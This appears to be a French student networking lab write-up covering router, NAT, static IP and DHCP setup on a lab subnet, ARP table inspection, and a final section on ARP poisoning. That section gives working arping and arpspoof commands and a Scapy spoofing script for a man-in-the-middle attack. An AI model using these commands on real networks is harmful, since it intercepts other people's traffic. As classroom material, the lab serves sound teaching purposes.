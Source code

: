 # TP Réseaux : Configuration et Analyse

## 1. Routage

### Informations du Routeur
- **Nom** : `router.tp2.efrei`
- **IP** : `10.2.1.254/24`

### Étapes de Configuration du Routeur

#### Configuration de l'Interface Internet (DHCP)
```bash
sudo nano /etc/sysconfig/network-scripts/ifcfg-enp0s3
# Configuration :
DEVICE=enp0s3
NAME=internet
BOOTPROTO=dhcp
ONBOOT=yes
```
Redémarrez l'interface :
```bash
sudo systemctl restart network
```

#### Configuration de l'Interface LAN (Statique)
```bash
sudo nano /etc/sysconfig/network-scripts/ifcfg-enp0s8
# Configuration :
DEVICE=enp0s8
NAME=lan
BOOTPROTO=static
ONBOOT=yes
IPADDR=10.2.1.254
NETMASK=255.255.255.0
```
Redémarrez l'interface :
```bash
sudo systemctl restart network
```

#### Activation du Routage et NAT
```bash
sudo firewall-cmd --add-masquerade
sudo firewall-cmd --add-masquerade --permanent
sudo firewall-cmd --reload
```

### Vérification de la Connectivité Internet
- Commande ping vers une adresse externe :
```bash
ping 8.8.8.8
```

### Affichage des Interfaces Réseau
```bash
ip a
```

## 2. Configuration de `node1`

### Configuration IP Statique
- **IP** : `10.2.1.1/24`
- **Passerelle** : `10.2.1.254`

```bash
sudo ip addr add 10.2.1.1/24 dev enp0s3
sudo ip route add default via 10.2.1.254
```

### Vérification des Connexions
- Ping vers le routeur :
```bash
ping 10.2.1.254
```
- Ping vers Internet :
```bash
ping 8.8.8.8
```
- Traceroute pour vérifier le passage par le routeur :
```bash
traceroute 8.8.8.8
```

## 3. Serveur DHCP

### Configuration de `dhcp.tp2.efrei`
- **IP** : `10.2.1.253/24`
- **Passerelle** : `10.2.1.254`

#### Installation et Configuration
1. Installez le serveur DHCP :
   ```bash
   sudo yum install dhcp-server
   ```
2. Éditez la configuration :
   ```bash
   sudo nano /etc/dhcp/dhcpd.conf
   # Exemple de configuration :
   subnet 10.2.1.0 netmask 255.255.255.0 {
       range 10.2.1.10 10.2.1.50;
       option routers 10.2.1.254;
       option domain-name-servers 1.1.1.1;
   }
   ```
3. Redémarrez le service :
   ```bash
   sudo systemctl restart dhcpd
   ```

### Test DHCP sur `node1`
1. Supprimez la configuration IP statique précédente :
   ```bash
   sudo ip addr flush dev enp0s3
   ```
2. Configurez pour utiliser DHCP :
   ```bash
   sudo dhclient enp0s3
   ```
3. Vérifiez l'IP obtenue et la passerelle :
   ```bash
   ip a
   ip route
   ```
4. Testez la connectivité :
   ```bash
   ping 8.8.8.8
   ```

## 4. Table ARP

### Affichage sur le Routeur
- Vérifiez la table ARP :
```bash
ip neigh
```
- Si une entrée manque, effectuez un ping pour déclencher l'échange ARP :
```bash
ping 10.2.1.1
```

### Capture Wireshark
1. Lancez Wireshark sur le réseau concerné.
2. Filtrez pour `arp`.
3. Obtenez et exportez l'échange ARP (Request et Reply).

## 5. ARP Poisoning

### Modification de la Table ARP
1. Sur une machine attaquante, insérez une entrée ARP :
   ```bash
   sudo arping -U -s 10.2.1.254 -i enp0s3 10.2.1.1
   ```

### Mise en Place d'un MITM
1. Activez l'IPv4 forwarding sur la machine attaquante :
   ```bash
   sudo sysctl -w net.ipv4.ip_forward=1
   ```
2. Lancez l'attaque avec `arpspoof` :
   ```bash
   sudo arpspoof -i enp0s3 -t 10.2.1.1 10.2.1.254
   ```

### Capture Wireshark
1. Filtrez pour les paquets ICMP et ARP.
2. Vérifiez que les pings transitent par l'attaquant.
3. Exportez la capture en fichier `.pcap`.

### Script Python avec Scapy
Créez un script Python pour l'attaque :
```python
from scapy.all import ARP, send

def spoof(target_ip, host_ip, target_mac, host_mac):
    packet = ARP(op=2, pdst=target_ip, psrc=host_ip, hwdst=target_mac)
    send(packet, verbose=False)

# Exemple : spoof('10.2.1.1', '10.2.1.254', '00:11:22:33:44:55', '66:77:88:99:AA:BB')
```

---
